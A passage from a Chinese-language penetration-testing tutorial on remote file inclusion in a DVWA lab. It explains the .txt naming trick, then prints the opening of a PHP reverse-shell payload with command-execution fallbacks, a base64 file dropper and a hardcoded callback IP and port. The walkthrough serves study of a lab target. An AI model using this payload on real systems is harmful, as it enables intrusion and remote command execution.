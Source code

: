 此处说明一下为什么取名是 phpinfo.txt 而不是 phpinfo.php，原因是 Kali 的环境支持 php，能够解析并执行 php，所以在 include 的时候，首先判断该文件的后缀是否为 .php，然后看本地能否解析、运行 php，若是这两个条件都符合就会在 Kali 中执行然后把结果返回给 include 它的程序，反之 include 的程序就会将 include 内容读取到本地，然后在本地执行。

也就是说若是取名为 phpinfo.php 的话，就会在 Kali 本地中执行这段小程序，然后将得到的结果返回给 dvwa，给我们呈现出来，这样做是没有意义，从两个角度来讲：

- 从开发的角度来说，include 文件是为了重用代码，不用把已经实现的功能写很多遍，调用其中的函数或者类什么的，但是若是在远程设备上执行了返回结果过来是没有办法调用上面的函数、类等等。
- 从渗透测试的角度来讲，是为了攻击你的服务器，使用该机器上的功能，查看敏感信息，在我自己的服务器上运行，返回我自己服务器上的信息给我干嘛呢？

所以此处我们将文件的后缀名修改成 .txt，这样就不会在本地执行了，而 include 过去之后，解析文本便不是靠后缀名，其中若是没有 `<?php ?>` 的标志认定只不是一个 php 文件，直接将内容打印在页面上，若是有 `<?php ?>` 的标志位便解析，然后运行。

## 7. 远程文件包含进阶

若还是只能这样查看信息的话，就不能说他的危害很大了。

上述的实验我们只是在上面简单的执行了一个小程序而已，我们若是放一个反弹 shell 呢？挂个木马？嘿嘿，就和我们正常的 ssh 登陆上去差不多了。

所谓的反弹 shell 就是 reverse shell，在机器上开启某个端口，用该端口向我们的设备发起请求，只要我们监听了该端口，并且该端口没有被防火墙所阻挡我们就可以连接上发起请求的设备，就像使用 ssh 登陆 shell 一样目标机器。

通过我们在 Kali 设备的 Apache 根目录下使用 `vim test.txt` 创建并编辑文件，该文件中有输入这样的一些内容：

```
<?php 

function which($pr) { 
$path = execute("which $pr"); 
return ($path ? $path : $pr); 
} 
function execute($cfe) { 
$res = ''; 
if ($cfe) { 
if(function_exists('exec')) { 
@exec($cfe,$res); 
$res = join("\n",$res); 
} elseif(function_exists('shell_exec')) { 
$res = @shell_exec($cfe); 
} elseif(function_exists('system')) { 
@ob_start(); 
@system($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(function_exists('passthru')) { 
@ob_start(); 
@passthru($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(@is_resource($f = @popen($cfe,"r"))) { 
$res = ''; 
while(!@feof($f)) { 
$res .= @fread($f,1024); 
} 
@pclose($f); 
} 
} 
return $res; 
} 
function cf($fname,$text){ 
if($fp=@fopen($fname,'w')) { 
@fputs($fp,@base64_decode($text)); 
@fclose($fp); 
} 
} 
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
$usedb = array('perl'=>'perl','c'=>'c'); 
```